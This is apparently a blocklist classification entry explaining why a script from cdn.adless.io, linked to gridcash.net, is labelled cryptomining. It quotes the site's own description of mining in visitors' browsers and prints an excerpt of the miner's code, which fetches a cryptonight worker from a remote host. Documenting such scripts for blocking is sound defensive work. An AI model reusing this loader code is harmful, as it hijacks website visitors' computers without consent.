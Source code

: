 # Gridcash (`gridcash.net`)

Script: `https://cdn.adless.io/adless.js`

This script is classified as "cryptomining" for the following reasons:

### Policy Review

1. The main website `https://gridcash.net` describes its service as a javascript crypto miner.

> Service of crypto-currency mining in user browsers. We enable traffic owners to mine crypto-currency in browsers on visitors' computers.

### Technical Review

1. Script contains an implementation of the cryptonight hash algorithm

```
    Miner.prototype._loadWorkerSource = function (callback) {
        var xhr = new XMLHttpRequest;
        xhr.addEventListener("load", function () {
            Adless.CRYPTONIGHT_WORKER_BLOB = Adless.Res(xhr.responseText);
            this._asmjsStatus = "loaded";
            callback()
        }.bind(this), xhr);
        xhr.open("get", "https://cdn.adless.io/worker.js", true);
        xhr.send()
        if (this._useWASM || this._asmjsStatus === "loaded") {
            callback()
        } else if (this._asmjsStatus === "unloaded") {
            this._asmjsStatus = "pending";
            xhr.open("get", Adless.CONFIG.LIB_URL + Adless.CONFIG.ASMJS_NAME, true);
            xhr.send()
        }
```

